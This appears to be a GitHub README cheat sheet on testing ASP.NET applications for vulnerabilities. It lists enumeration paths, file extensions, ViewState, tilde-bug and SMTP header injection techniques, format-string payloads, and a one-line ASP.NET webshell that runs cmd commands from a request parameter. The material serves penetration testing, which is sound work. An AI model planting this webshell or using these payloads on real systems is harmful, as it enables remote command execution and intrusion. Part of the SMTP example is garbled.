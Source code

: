 ## ENUMERATION
No need for me to say how important is enumeration! I list herein _additional_ directories and extentions to look for in a .NET application.
### Directories
  - C:\Windows\System32
  - \\Host\C$\Windows\System32
  - \\.\C:\Windows\System32
  - \\?\C:\Windows\System32
  - \\?\UNC\Host\C$\Windows\System32
  - C:\Windows\hh.exe == C:\Windows:$I30:$INDEX_ALLOCATION\hh.exe
  - C:\Windows\notepad.exe == C:\Windows\notepad.exe::$DATA
  - FileName.aspx == FileName.aspx:.jpg
  - http://hostname/*Resource.axd?d=<resourceId\>&t=\<timestamp\>

Also take a look at the following reminders before you start your directory bruteforce:
  - Reserved: NUL, CON, AUX, PRN, COM, LPT
  - Endings: name == name… == name \\\
  - Case insensitivity
### Files Extensions
  - .asp
  - .aspx
  - .ashx
  - .xsd
  - .disco
  - .discomap
  - .wsdl
  - .wadl
  - .asmx
  - .xml
  - .config
  - .zip
  - .txt
  
## TECHNIQUES AND TRICKS
I wanted this list to be an exhaustive list of all vulnerabilities that are mentioned on the web to be of a special focus in ASP.NET applications, I myself have seen some and not all of them, and I guess they are common among .NET in general -you will recognize some of them to be valid for all types of backends too but I was not as keen to mention all of those.
### Short Names (IIS tilde bug)
The vulnerability is caused by a tilde character "~" in a GET or OPTIONS request, which could allow remote attackers to disclose 8.3 filenames.
[IIS-ShortName-Scanner](https://github.com/irsdl/IIS-ShortName-Scanner)
`java –jar iis_shortname_scanner.jar [2=Show_Progress] [20=Threads] [Target_URL] > [OutFile]`
PS. ignore “global”, “master”, “default”, “aspnet” from results
### Viewstate
The ViewState is a mechanism built into the ASP.NET platform for persisting elements of the user interface and other data across successive requests. The data to be persisted is serialized by the server and transmitted via a hidden form field. When it is posted back to the server, the ViewState parameter is deserialized and the data is retrieved. An attacker can modify the contents of the ViewState and cause arbitrary data to be deserialized and processed by the server. An attacker may be able to execute arbitrary code on the server by supplying a gadget chain. Also, if the ViewState contains any items that are critical to the server's processing of the request, then this may result in a direct security exposure.
Looking further into this vulnerability you would notice that it has many possible variations. As a simple first step you can start by testing if the ViewState is not encrypted simply by finding any ViewState decoder on the web (e.g. http://viewstatedecoder.azurewebsites.net/)
### Remote debugging
Since ASP.NET is a compiled application, it has certain debugging features. Microsoft allows you to use a remote debugger to work on a debug version of the application.  If this port is open on the Internet and is protected by a simple password, or there is no password at all, then it is possible to pick up a debugger session.
### SMTP Header Injection
No validation of the value that falls in the “To” header, it is possible to redirect the letter to another recipient. But that would be too simple and obvious, so validation occurs already at the .Net level. However, if you introduce a new Reply-To header — the answer address, many forms such as “Forgotten Password” often take the sending address from it, thus it is enough to embed carriage return and line feed characters and get the workload.

`From: rth@bieberdorf.edu (R.T. Hood)
To: tmh@immense-isp.com/r/nReply-to:hack@hack.ru
Date: Tue, Mar 18199714:36:14 PST
Message-Id: <rth031897143614-00000298@mail.bieberdorf.edu>
...
В итоге будет внедрен новый заголовок:
From: rth@bieberdorf.edu (R.T. Hood)
To: tmh@immense-isp.com
Reply-To: hack@hack.ru
Date: Tue, Mar 18199714:36:14 PST
Message-Id: <rth031897143614-00000298@mail.bieberdorf.edu>`
### Additional .NET-Specific Tricks
  1. Canonicalization attack
    - Using environment variables to represent path - e.g. %windir%notepad.exe
    - Trailing “.” - e.g. C:wondowsnotepad.exe.
    - Create file - \\URL\<name>		\\URL\pipe\<name>
  2. LINQ injection
  3. Hash collusion: https://github.com/HybrisDisaster/aspHashDoS
#### Not-.NET-Specific
  1. XXE in DocX files
  2. Padding Oracle (cookies / viewstate …)
  3. Injection (sql with sqlNinja, js, html…)
  4. Format strings attack - e.g %n%n%n%n%n%n%n%n  ||  %s%s%s%s%s%s%s%s%s  ||  %d%d%d%d%d%d%d%d
  5. Serialization
  6. LFI - simple webshell `<%@ Page Language="C#" %> <%@ Import Namespace="System.Diagnostics" %> <%= Process.Start( new ProcessStartInfo( "cmd","/c " + Request["c"] ) { UseShellExecute = false, RedirectStandardOutput = true } ).StandardOutput.ReadToEnd() %>`
  7. Trace method
  8. Session fixation 
  9. Replay attacks
  10. CORS
 
## References
- https://www.youtube.com/watch?v=HrJW6Y9kHC4 
- https://cheatsheetseries.owasp.org/cheatsheets/DotNet_Security_Cheat_Sheet.html
- https://resources.infosecinstitute.com/topic/net-penetration-testing-test-case-cheat-sheet/
- https://www.business2community.com/cybersecurity/9-ways-hackers-exploit-asp-net-and-how-to-prevent-them-02353604
- Positive technologies [PDF](https://www.google.com/url?sa=t&rct=j&q=&esrc=s&source=web&cd=&cad=rja&uact=8&ved=2ahUKEwiR5K7i-5T0AhUKh_0HHQM2CW0QFnoECAMQAQ&url=https%3A%2F%2Fwww.ptsecurity.com%2Fupload%2Fcorporate%2Fru-ru%2Fwebinars%2Fics%2FV.Kochetkov_breaking_ASP.NET.pdf&usg=AOvVaw1BQOnt5w4XQizf5Tosp201)
